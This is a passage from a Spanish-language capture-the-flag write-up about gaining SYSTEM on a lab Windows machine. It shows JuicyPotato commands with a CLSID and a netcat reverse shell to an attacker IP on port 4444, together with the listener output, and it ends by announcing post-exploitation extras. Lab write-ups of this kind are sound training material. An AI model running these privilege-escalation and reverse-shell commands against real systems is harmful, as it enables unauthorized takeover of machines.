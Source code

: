 >Una clave CLSID es un número de 128 bits que representa un identificador único para una aplicación o para un componente. Windows usa claves CLSID para identificar componentes de software sin la necesidad de conocer su "nombre". Las aplicaciones también las pueden usar para identificar un equipo, archivo u objeto.


````bash
C:\Windows\Temp\priv>JuicyPotato.exe -l 1337 -t * -p c:\windows\system32\cmd.exe -a "/c whoami" -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
JuicyPotato.exe -l 1337 -t * -p c:\windows\system32\cmd.exe -a "/c whoami" -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1337
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
`````

Ahora ejecuto el JuicyPotato.exe para enviarme una revershell como administrador con el netcat que subi antes.

````bash
C:\Windows\Temp\priv>JuicyPotato.exe -l 1337 -t * -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\priv\nc64.exe -e cmd 10.10.14.6 4444" -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
JuicyPotato.exe -l 1337 -t * -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\priv\nc64.exe -e cmd 10.10.14.6 4444" -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1337
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

========================================================================================
❯ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.9] 49203
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
`````

Maquina PWND!

## Extras abrir puerto 445, obtener contraseña de administrador en texto plano, habilitar RDP.

Abrir puerto 445.

Para abrir el puerto usare ``netsh`` esto solo funciona con el usuario administrador, otra forma es con el comando ``net share`` para crear un recurso compartido.
